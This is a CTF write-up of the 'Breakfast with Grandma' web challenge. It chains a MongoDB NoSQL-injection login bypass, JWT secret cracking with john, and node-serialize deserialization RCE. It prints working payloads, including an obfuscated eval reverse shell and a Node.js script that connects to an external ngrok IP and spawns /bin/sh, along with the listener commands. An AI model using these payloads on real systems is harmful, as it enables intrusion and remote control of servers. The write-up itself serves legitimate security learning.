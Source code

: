 # Description

Hello and welcome everyone to my WriteUp for the "Breakfast with Grandma" Challenge By the author `@j3x` for the event PWN TILL S'HOUR for this year Held By The Club of @Shellmates
I'd just to point out that this is my first ever doing a WriteUp for a CTF challenge so if it is too long or something like that I apologize from now since I'm trying not only to write The Solution but as well as the thinking procedure that lead us to the Flag, So let's Go : 

### NoSQL injection
1. We Are Faced with a login page as shown in the Following image : 

![alt text](login.png)
![alt text](JSON-Credits.png)

After following around a bit with the debugger and Burp Suite we can see that the response that contains the credentials inputted in the form is returned through JSON Format (here i said it's definitely a NoSQL Injection since they are who use JSON, i did some testing to confirm is was node with Mongo in burp like this : )


![alt text](Node-error.png)

### So what is a `NoSQL` injection?

NoSQL injection is a security weakness in a web application that uses a NoSQL database, can allow attackers to bypass authentication, exfiltrate sensitive data, tamper with data on the database, or even compromise the database and the underlying server Most NoSQL injection vulnerabilities occur because developers accept and process user inputs without properly sanitizing them

### We go back to our challenge

First i tried with admin credits Injection like this : 
`{"username":"admin","password":{"$ne": "x"}}`
Work then i changes it to this and we have a successful login (ofc we use Burp to send the request , u can also use ZAP or cURL but this is more simple ): 
`{"username":{"$ne": "x"},"password":{"$ne": "x"}}`

![alt text](Payload-NoSQLi.png) 

![alt text](SuccessLogin-Dashboard.png)

Once Logged In we don't have much to See and since the description Talked about cookies then it's probably a good idea to check them in the Storage Tab using developper tools (CTRL SHIFT C , or just right click and select it ) 
We then find a JWT Token let's decrypt it using JWT.io : We Find an used ID , iat (expiration time or smth lmao ) and an also an encodedData which contains a Base64 Coded Text : 
`
{
  "userId": "********************",
  "encodedData": "eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiQ2VyZWFscyIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9",
  "iat": 1712537034
}
`
decode it using base64 -d command in terminal (or just use a tool like CyberChef ) we find it's the same data showed in the dashboard 
`{"username":"bobby","age":4,"favouriteMeal":"Cereals","_2ndFavMeal":"Cookies"}`

for more informations about NoSQL injection check [this link] https://book.hacktricks.xyz/pentesting-web/nosql-injection

### JWT signatur bruteforcing
Let's Find the JWT Signature password using our friend john (a tool to brute force passwords ) like this : 
john token.txt -w=/usr/share/wordlists/rockyou.txt (make sure to put ur JWT token in the txt file correctly: no spaces or anything else cause it may cause problems and not be found ) 
"""
$ john token.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shellmatexx      (?)     
1g 0:00:00:01 DONE (2024-04-08 01:52) 0.8928g/s 3408Kp/s 3408Kc/s 3408KC/s shikoni..sheenyboy1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
"""

The password is found : `shellmatexx`, this is gonna allow us to change the jwt as we which (only the base64 part, since the other ones are used for the session)

here we are bit stuck ig? let's take a look at the source code, after some good search we find a serialization/deserialization code, let's ask ChatGPT if it's vulnerable to RCE (Remote Code Execution ) , The answer Is YES 
Now we look for ready to use exploits for this case : i first found one which is the most commun/basic one let's test it : 
Source : https://www.exploit-db.com/exploits/45265
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
 let's take the rce field and place it in our JSON format in place of one of the fields and the encode this : 
 

{"username":"bobby","age":4,"favouriteMeal":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()","_2ndFavMeal":"Cookies"}

BAse64 : 
eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoXCdjaGlsZF9wcm9jZXNzXCcpLmV4ZWMoXCdscyAvXCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9Cg==

and send it in out JWT token bu using Cyber Chef to encode it (dont forget the secret word )

![alt text](Encode-First-RCE-JWT.png)

This didnt work :

![alt text](First-RCE-Not-Working.png)

lets look for something else, after some digging up this article looked intresting as it had some resemblance to our challenge :
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

This Used some advance a bit technique to achieve Reverse Shell Using Eval 
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

// CODE USED FOR THE REVERSE SHELL 

var net = require('net');
var spawn = require('child_process').spawn;
HOST="3.125.188.168"; // ngrok provided public IP ADD
PORT="14447";  // ngrok provided public PORT 
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);

This what we are gonna do : 
1-Encode the past code to Decimal (with comma as a seperator ) then put it inside the eval
2-put the eval and rest of the code in out Data's JSON format 
3-Following that we encode The Data's JSON To base64 and 
4-And last but not least put that in the JWT Token
Change the IP and Port (Use Ngrok for a public one and then forward it to your terminal )
in terminal : Sudo ngrok tcp 4444
in another terminal window : nc -lvp 4444
(for more details check this article : https://drxh3kr.medium.com/using-netcat-with-ngrok-ip-for-receiving-reverse-shell-25ba7a498aab)
and voila we have Reverse Shell : 
look around a bit and we find the flag in the root directory (/) and there u have it 


CAPTURE SHELLL ![alt text](Ngrok-RV-Flag.png)


Note : This was an Amazing and creative challenge for me , GG to the Author 


